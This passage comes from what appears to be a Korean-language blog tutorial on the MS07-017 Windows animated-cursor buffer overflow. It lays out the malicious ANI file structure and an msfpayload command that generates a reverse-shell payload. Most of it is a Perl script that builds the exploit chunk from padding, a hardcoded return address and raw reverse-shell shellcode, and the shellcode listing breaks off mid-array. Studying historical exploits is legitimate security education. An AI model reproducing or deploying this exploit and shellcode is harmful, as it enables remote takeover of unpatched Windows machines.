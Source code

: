 분석 결과대로 나열해 공식화하면 다음과 같습니다.

- `RIFF`
- `RIFF_SIZE`
- `ACON`
- 정상적인 애니메이션 아이콘에서 추출한 `anih_chunk`
- 공격에 쓰일 `anih_chunk`(오버플로우를 이용하여 반환 주소를 공격 코드 쪽으로 조작)

공격에 쓰일 `anih_chunk` 데이터는 metasploit을 이용하여 제작합니다.
명령줄에서 다음 명령을 실행합니다.

    #!bash
    $ msfpayload win32_reverse LHOST=<addr> P

각각의 명령은 다음과 같은 의미를 가집니다.

- `msfpayload`: 여러 종류의 쉘 코드를 작성해주는 툴로 Perl로 작성되어 있음
- `win32_reverse`: 윈도우즈 기반에서 동작하는 리버스 쉘을 생성하겠다는 의미
- `LHOST=<addr>`: 리버스 쉘에서 사용할 IP
- `P`: 생성된 쉘 코드를 Perl 형식으로 제작

다음은 `msfpayload`를 실행한 화면입니다.

![Ani Header 덩어리에 넣을 익스플로잇 코드][metasploit-anihchunk]

결국 익스플로잇용 애니메이션 커서일 경우 파일 구조는 다음과 같을 것입니다.

    #!plain
    RIFF Header
    Ani Header
    Ani Header2(조작)
    Ani헤더인식정보
    Chunk Size
    PADDING(오버플로우 발생)
    Return Address
    실제 Exploit Code



Let's baking exploit!
----------------------

공격을 위해 변조한 애니메이션 커서를 만드는 코드는 다음과 같습니다.

    #!perl
    #!/usr/bin/env perl
    
    use strict;
    use warnings;
    
    my $Padding  = 'A'x80;
    my $Ret_Addr = "\xED\x1E\x97\x7C";
    my $Dummy    = 'A'x20;

    my $Attack_Chunk_Data
        = $Padding
        . $Ret_Addr
        . $Dummy
        . "\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24\x8b\x45"
        . "\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f\x20\x01\xeb\x49"
        . "\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84\xc0\x74\x07\xc1\xca\x0d"
        . "\x01\xc2\xeb\xf4\x3b\x54\x24\x28\x75\xe5\x8b\x5f\x24\x01\xeb\x66"
        . "\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61"
        . "\xc3\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40"
        . "\x08\x5e\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32"
        . "\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50\xff\xd6"
        . "\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff\xd0\x68\xd9\x09"
        . "\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43\x53\x43\x53\xff\xd0\x68"
        . "\xc0\xa8\x42\xe4\x66\x68\x10\xe1\x66\x53\x89\xe1\x95\x68\xec\xf9"
        . "\xaa\x60\x57\xff\xd6\x6a\x10\x51\xcd\xfd\xd0\x66\x6a\x64\x66\x68"

[prepare-before-after]: 2010-12-19-01.jpg
[binary-diff]:          2010-12-19-02.jpg
[binary-diff-zoom]:     2010-12-19-03.jpg
[target-file]:          2010-12-19-05-01.jpg width=700px
[target-file-analysis]: 2010-12-19-05-02.jpg
[metasploit-anihchunk]: 2010-12-19-06.jpg
[trap-card]:            2010-12-19-07.jpg
[youve-trapped]:        2010-12-19-08.jpg width=700px
[reverse-shell]:        2010-12-19-09.jpg
[backtrack-home]:       http://www.backtrack-linux.org/
[metasploit-home]:      http://www.metasploit.com/
[ms07-017-patch]:       http://www.microsoft.com/korea/technet/security/bulletin/ms07-017.mspx
[riff-file-format]:     http://mips.changwon.ac.kr/cyber/multi_theory/multimedia/mmd3-1.html
[twitter-vohrmana]:     http://twitter.com/#!/vohrmana
[wikipedia-exploit]:    http://en.wikipedia.org/wiki/Exploit_%28computer_security%29